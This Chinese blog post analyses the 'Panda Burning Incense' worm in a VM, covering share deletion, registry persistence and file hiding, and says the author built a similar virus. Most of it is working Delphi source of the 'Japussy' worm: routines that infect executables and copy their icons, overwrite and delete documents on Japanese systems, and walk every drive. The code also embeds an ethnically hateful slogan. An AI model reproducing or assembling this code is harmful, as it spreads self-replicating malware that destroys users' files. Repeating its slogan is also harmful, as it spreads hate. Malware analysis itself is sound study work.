# 自己手动复现一个熊猫烧香病毒

### 起因

最近逛了一下 `bilibili` ，偶然的一次机会，我在 `bilibili` 上看到了某个 `up` 主分享了一个他自己仿照熊猫病毒的原型制作的一个病毒的演示视频，虽然这个病毒的出现距离现在已经十多年之久了，但是它的威胁性仍然不亚于永恒之蓝，出现了很多变种病毒。我觉得蛮有意思的，有必要深究一下，所以我花上几天的时间研究了一下熊猫烧香病毒的源码，仿照熊猫烧香病毒原型，也制作了一个类似的软件，实现的源码我会在文章的末尾给出 `GitHub` 项目链接，喜欢的朋友不要忘记给我一个 `star and follow` 呀！

### 熊猫烧香的介绍

熊猫烧香是一个感染性的蠕虫病毒，它能感染系统中的 `exe` ，`com` ，`pif`，`src`，`html`，`asp` 等文件，它还能中止大量的反病毒软件进程并且会删除扩展名为 `gho` 的文件，该文件是一系统备份工具 `GHOST` 的备份文件，使用户的系统备份文件丢失。被感染的用户系统中所有的.exe可执行文件图标全部被改成熊猫烧香的图标，如下图所示：



如果有同学对熊猫烧香的来源感兴趣的话，可以看看中科大写的关于熊猫烧香的案件分析：[由“熊猫烧香”谈起](http://staff.ustc.edu.cn/~lszhuang/law09/xiongmaoshaoxiang.pdf)

### 病毒结构分析



从上述的流程图中我们可以看到，含有病毒体的文件被运行后，病毒将自身拷贝至系统目录，同时修改注册表，将自身设置为开机启动项，并遍历各个驱动器，将自身写入磁盘根目录，增加一个 `autorun.inf` 文件，使得用户打开该盘符时激活病毒体。随后病毒体开一个县城进行本地文件感染，同时开另外一个线程连接网站下载 `DDoS` 程序发起恶意攻击。

### 具体行为分析

病毒的主要行为分为以下三部分：

- 自我保护与自我复制

- 感染

- 病毒自我保护

自我保护与自我复制行为就是复制自身到系统目录、双击被感染程序可以检测判断 `spcolsv.exe` 是否存在，从被感染的文件分裂出病毒程序重新执行。



感染的行为主要是感染全盘(本地)、定时器感染全盘(本地)、局域网感染(联网)



病毒自我保护行为主要是设置注册表、停止杀软、网站下载代码并执行。



我们一起来带大家演示一下这个病毒吧~~~

#### 环境准备

- Windows 7 企业版

- VMware Workstation 12

- panda.exe

- Process Monitor v3.10

我们先看下下面这个操作



从上面这个操作，我们可以看到，我们打开任务管理器的时候，当前我们任务管理器有49个进程，我们可以通过对比任务管理器就可以知道，病毒创建了哪些进程。我们运行了病毒程序以后，我们可以发现，任务管理器自动关闭了，我们再尝试打开任务管理器，我们会发现，我们无法打开任务管理器，说明病毒程序已经对我们的系统造成了影响。



紧接着，我们还可以看到 `Windows` 安全中心服务已关闭，我们大概可以判断出，病毒程序关闭了我们的防火墙。

那我们现在如何查看当前系统的进程呢？



我们可以通过 `cmd` 调出命令提示符，输入 `tasklist` 可以列出当前系统的进程，我们和之前的系统进程进行匹配，我们可以发现，多出了一个 `spcolsv.exe` 的进程，我们可以大胆地猜测，这个就是病毒所创建出来的程序。

我们行为分析主要用的是 `Process Monitor` 工具，我们用过滤功能筛选出 `panda.exe` 进程信息，我们可以看到捕获到了许多有关 `panda.exe` 的进程信息。


我们可以先看下进程树，我们可以看到，由 `panda.exe` 衍生出了一个名为 `spcolsv.exe` 的程序，文件位置为 `C:\Windows\system32\drivers\spcolsv.exe` ，而这个程序又两次打开了 `cmd.exe` ，我们可以看下这里所运行的命令。

`net  share C$ /del /y` 这条命令主要是删除C盘的共享，由于我目前的虚拟机中只有一个盘符C，所以我们有理由相信，如果病毒在真实机中运行，真实机中会有好几个盘符的话，它应该会删除所有盘符的共享。

`net  share admin$ /del /y` 这条命令删除了根目录的共享。

看到这里，我们可以总结出病毒的两点行为：

- 病毒本身创建了名为 `spcolsv.exe` 的进程，该进程文件的路径为 `C:\WINDOWS\system32\drivers\spcolsv.exe` 。

- 在命令行模式下使用 `net share` 命令来取消系统中的共享。



下面我们可以看下 `Process Monitor` 对病毒的监控

我们可以先看下对注册表的监控，我们通过筛选，似乎没有发现很多有用的信息，说明 `panda.exe` 对于注册表没有什么实质的影响



接下来我们可以看下对文件的监控，由于文件项有那么多，我们就只关注对文件的创建部分，我们通过筛选发现， `panda.exe` 文件在 `C:\WINDOWS\system32\drivers` 中创建了 `spcolsv.exe` ，我们并没有发现其他的东西，所以我们可以猜测，真正对系统产生影响的可能就是 `spcolsv.exe` 这个程序



所以我们下一步的操作应当是只监控 `spcolsv.exe` 这样一个程序，这里我们需要将进程名为 `spcolsv.exe` 的进程加入筛选器进行分析。一般来说，病毒所产生的操作会比较多，所以我在这里为了便于讨论，我每次只会列出几项操作进行显示，其它的操作就由筛选器排除掉。首先可以查看一下 `RegDeleteValue` 这个操作：



可见病毒程序将当时几乎所有的安全类工具的自启动项给删除了，我们可以得出病毒的第三点行为：

- 删除安全类软件在注册表中的启动项

然后我们只保留 `RegCreateKey` 与 `RegSetValue` 进行分析



可见，病毒程序为自身创建了自启动项，使得每次启动计算机就会执行自身，因此我们可以得出病毒的第四点行为：

- 在注册表 `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 中创建 `svcshare` ，用于在开机时启动位于 `C:\WINDOWS\system32\drivers\spcolsv.exe` 的病毒程序

接下来我们可以看到，病毒程序对注册表的这个位置进行设置，能够实现文件的隐藏。此处进行设置后，即便在“文件夹选项”中选择“显示所有文件和文件夹”，也无法显示隐藏文件。



我们可以得出病毒的第五点行为：

- 修改注册表，使得隐藏文件无法通过普通的设置进行显示，该位置为： `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` ，病毒将 `CheckedValue` 的键值设置为了0。

至此，注册表部分就基本分析完毕了。

我们继续看看文件的监控，我们主要看的是病毒是否将自己复制到其他目录，或者创建删除了哪些文件等。



在图中可以看到，病毒文件在 `C:\WINDOWS\system32\drivers` 中创建了 `spcolsv.exe` 这个文件，在C盘根目录下创建了 `setup.exe` 与 `autorun.inf` ，并且在一些目录中创建了 `Desktop_.ini` 这个文件。由于创建这些文件之后就对注册表的 `SHOWALL` 项进行了设置，使得隐藏文件无法显示，那么有理由相信，所创建出来的这些文件的属性都是“隐藏”的，我们可以得出病毒的两点行为：

- 将自身拷贝到根目录，并命名为 `setup.exe` ，同时创建 `autorun.inf` 用于病毒的启动，这两个文件的属性都是“隐藏”。

- 在一些目录中创建名为 `Desktop_.ini` 的隐藏文件。

现在只进行网络监控，来查看病毒是否有联网动作



从监控结果可以看到，病毒会向 `61.131.208.210` 发送并接收信息，并不断尝试连接 `192.168.152.X` 即局域网中的其它计算机，我们可以总结出病毒的第八点行为：

- 向外发包，连接局域网中其他机器

### 源码分析

网上开源的代码绝大多数都是用 `Delphi` 编写的

病毒文件初始信息如下：

```
program Japussy;
uses
  Windows, SysUtils, Classes, Graphics, ShellAPI{, Registry};
const
  HeaderSize = 82432;                  //病毒体的大小
  IconOffset = $12EB8;                 //PE文件主图标的偏移量

  //在我的Delphi5 SP1上面编译得到的大小，其它版本的Delphi可能不同
  //查找2800000020的十六进制字符串可以找到主图标的偏移量

{
  HeaderSize = 38912;                  //Upx压缩过病毒体的大小
  IconOffset = $92BC;                  //Upx压缩过PE文件主图标的偏移量

  //Upx 1.24W 用法: upx -9 --8086 Japussy.exe
}
  IconSize   = $2E8;                   //PE文件主图标的大小--744字节
  IconTail   = IconOffset + IconSize;  //PE文件主图标的尾部
  ID         = $44444444;              //感染标记
```

垃圾码，以备写入

```
  //垃圾码，以备写入
  Catchword = 'If a race need to be killed out, it must be Yamato. ' +
              'If a country need to be destroyed, it must be Japan! ' +
              '*** W32.Japussy.Worm.A ***';
{$R *.RES}
function RegisterServiceProcess(dwProcessID, dwType: Integer): Integer; 
  stdcall; external 'Kernel32.dll'; //函数声明
var
  TmpFile: string;
  Si:      STARTUPINFO;
  Pi:      PROCESS_INFORMATION;
  IsJap:   Boolean = False; //日文操作系统标记
```

判断是否为 `Win9x`

```
{ 判断是否为Win9x }
function IsWin9x: Boolean;
var
  Ver: TOSVersionInfo;
begin
  Result := False;
  Ver.dwOSVersionInfoSize := SizeOf(TOSVersionInfo);
  if not GetVersionEx(Ver) then
    Exit;
  if (Ver.dwPlatformID = VER_PLATFORM_WIN32_WINDOWS) then //Win9x
    Result := True;
end;
```

在流之间复制

```
{ 在流之间复制 }
procedure CopyStream(Src: TStream; sStartPos: Integer; Dst: TStream;
  dStartPos: Integer; Count: Integer);
var
  sCurPos, dCurPos: Integer;
begin
  sCurPos := Src.Position;
  dCurPos := Dst.Position;
  Src.Seek(sStartPos, 0);
  Dst.Seek(dStartPos, 0);
  Dst.CopyFrom(Src, Count);
  Src.Seek(sCurPos, 0);
  Dst.Seek(dCurPos, 0);
end;
```

将宿主文件从已感染的PE文件中分离出来，以备使用

```
{ 将宿主文件从已感染的PE文件中分离出来，以备使用 }
procedure ExtractFile(FileName: string);
var
  sStream, dStream: TFileStream;
begin
  try
    sStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
    try
      dStream := TFileStream.Create(FileName, fmCreate);
      try
        sStream.Seek(HeaderSize, 0); //跳过头部的病毒部分
        dStream.CopyFrom(sStream, sStream.Size - HeaderSize);
      finally
        dStream.Free;
      end;
    finally
      sStream.Free;
    end;
  except
  end;
end;
```

填充 `Startup Info` 结构

```
{ 填充STARTUPINFO结构 }
procedure FillStartupInfo(var Si: STARTUPINFO; State: Word);
begin
  Si.cb := SizeOf(Si);
  Si.lpReserved := nil;
  Si.lpDesktop := nil;
  Si.lpTitle := nil;
  Si.dwFlags := STARTF_USESHOWWINDOW;
  Si.wShowWindow := State;
  Si.cbReserved2 := 0;
  Si.lpReserved2 := nil;
end;
```

发带毒邮件

```
{ 发带毒邮件 }
procedure SendMail;//此处省略了带危害性的代码
begin
end;
```

感染 `PE` 文件

```
{ 感染PE文件 }
procedure InfectOneFile(FileName: string);
var
  HdrStream, SrcStream: TFileStream;
  IcoStream, DstStream: TMemoryStream;
  iID: LongInt;
  aIcon: TIcon;
  Infected, IsPE: Boolean;
  i: Integer;
  Buf: array[0..1] of Char;
begin
  try //出错则文件正在被使用，退出
    if CompareText(FileName, 'JAPUSSY.EXE') = 0 then //是自己则不感染
      Exit;
    Infected := False;
    IsPE     := False;
    SrcStream := TFileStream.Create(FileName, fmOpenRead);
    try
      for i := 0 to $108 do //检查PE文件头
      begin
        SrcStream.Seek(i, soFromBeginning);
        SrcStream.Read(Buf, 2);
        if (Buf[0] = #80) and (Buf[1] = #69) then //PE标记
        begin
          IsPE := True; //是PE文件
          Break;
        end;
      end;
      SrcStream.Seek(-4, soFromEnd); //检查感染标记
      SrcStream.Read(iID, 4);
      if (iID = ID) or (SrcStream.Size < 10240) then //太小的文件不感染
        Infected := True;
    finally
      SrcStream.Free;
    end;
    if Infected or (not IsPE) then //如果感染过了或不是PE文件则退出
      Exit;
    IcoStream := TMemoryStream.Create;
    DstStream := TMemoryStream.Create;
    try
      aIcon := TIcon.Create;
      try
        //得到被感染文件的主图标(744字节)，存入流
        aIcon.ReleaseHandle;
        aIcon.Handle := ExtractIcon(HInstance, PChar(FileName), 0);
        aIcon.SaveToStream(IcoStream);
      finally
        aIcon.Free;
      end;
      SrcStream := TFileStream.Create(FileName, fmOpenRead);
      //头文件
      HdrStream := TFileStream.Create(ParamStr(0), fmOpenRead or fmShareDenyNone);
      try
        //写入病毒体主图标之前的数据
        CopyStream(HdrStream, 0, DstStream, 0, IconOffset);
        //写入目前程序的主图标
        CopyStream(IcoStream, 22, DstStream, IconOffset, IconSize);
        //写入病毒体主图标到病毒体尾部之间的数据
        CopyStream(HdrStream, IconTail, DstStream, IconTail, HeaderSize - IconTail);
        //写入宿主程序
        CopyStream(SrcStream, 0, DstStream, HeaderSize, SrcStream.Size);
        //写入已感染的标记
        DstStream.Seek(0, 2);
        iID := $44444444;
        DstStream.Write(iID, 4);
      finally
        HdrStream.Free;
      end;
    finally
      SrcStream.Free;
      IcoStream.Free;
      DstStream.SaveToFile(FileName); //替换宿主文件
      DstStream.Free;
    end;
  except;
  end;
end;
```

将目标文件写入垃圾码后删除

```
{ 将目标文件写入垃圾码后删除 }
procedure SmashFile(FileName: string);
var
  FileHandle: Integer;
  i, Size, Mass, Max, Len: Integer;
begin
  try
    SetFileAttributes(PChar(FileName), 0); //去掉只读属性
    FileHandle := FileOpen(FileName, fmOpenWrite); //打开文件
    try
      Size := GetFileSize(FileHandle, nil); //文件大小
      i := 0;
      Randomize;
      Max := Random(15); //写入垃圾码的随机次数
      if Max < 5 then
        Max := 5;
      Mass := Size div Max; //每个间隔块的大小
      Len := Length(Catchword);
      while i < Max do
      begin
        FileSeek(FileHandle, i * Mass, 0); //定位
        //写入垃圾码，将文件彻底破坏掉
        FileWrite(FileHandle, Catchword, Len);
        Inc(i);
      end;
    finally
      FileClose(FileHandle); //关闭文件
    end;
    DeleteFile(PChar(FileName)); //删除之
  except
  end;
end;
```

获得可写的驱动器列表

```
{ 获得可写的驱动器列表 }
function GetDrives: string;
var
  DiskType: Word;
  D: Char;
  Str: string;
  i: Integer;
begin
  for i := 0 to 25 do //遍历26个字母
  begin
    D := Chr(i + 65);
    Str := D + ':';
    DiskType := GetDriveType(PChar(Str));
    //得到本地磁盘和网络盘
    if (DiskType = DRIVE_FIXED) or (DiskType = DRIVE_REMOTE) then
      Result := Result + D;
  end;
end;
```

遍历目录，感染和摧毁文件

```
{ 遍历目录，感染和摧毁文件 }
procedure LoopFiles(Path, Mask: string);
var
  i, Count: Integer;
  Fn, Ext: string;
  SubDir: TStrings;
  SearchRec: TSearchRec;
  Msg: TMsg;
  function IsValidDir(SearchRec: TSearchRec): Integer;
  begin
    if (SearchRec.Attr <> 16) and  (SearchRec.Name <> '.') and
      (SearchRec.Name <> '..') then
      Result := 0 //不是目录
    else if (SearchRec.Attr = 16) and  (SearchRec.Name <> '.') and
      (SearchRec.Name <> '..') then
        Result := 1 //不是根目录
    else Result := 2; //是根目录
  end;
begin
  if (FindFirst(Path + Mask, faAnyFile, SearchRec) = 0) then
  begin
    repeat
      PeekMessage(Msg, 0, 0, 0, PM_REMOVE); //调整消息队列，避免引起怀疑
      if IsValidDir(SearchRec) = 0 then
      begin
        Fn := Path + SearchRec.Name;
        Ext := UpperCase(ExtractFileExt(Fn));
        if (Ext = '.EXE') or (Ext = '.SCR') then
        begin
          InfectOneFile(Fn); //感染可执行文件        
        end
        else if (Ext = '.HTM') or (Ext = '.HTML') or (Ext = '.ASP') then
        begin
          //感染HTML和ASP文件，将Base64编码后的病毒写入
          //感染浏览此网页的所有用户
          //哪位大兄弟愿意完成之？
        end
        else if Ext = '.WAB' then //Outlook地址簿文件
        begin
          //获取Outlook邮件地址
        end
        else if Ext = '.ADC' then //Foxmail地址自动完成文件
        begin
          //获取Foxmail邮件地址
        end
        else if Ext = 'IND' then //Foxmail地址簿文件
        begin
          //获取Foxmail邮件地址
        end
        else 
        begin
          if IsJap then //是倭文操作系统
          begin
            if (Ext = '.DOC') or (Ext = '.XLS') or (Ext = '.MDB') or
              (Ext = '.MP3') or (Ext = '.RM') or (Ext = '.RA') or
              (Ext = '.WMA') or (Ext = '.ZIP') or (Ext = '.RAR') or
              (Ext = '.MPEG') or (Ext = '.ASF') or (Ext = '.JPG') or
              (Ext = '.JPEG') or (Ext = '.GIF') or (Ext = '.SWF') or
              (Ext = '.PDF') or (Ext = '.CHM') or (Ext = '.AVI') then
                SmashFile(Fn); //摧毁文件
          end;
        end;
      end;
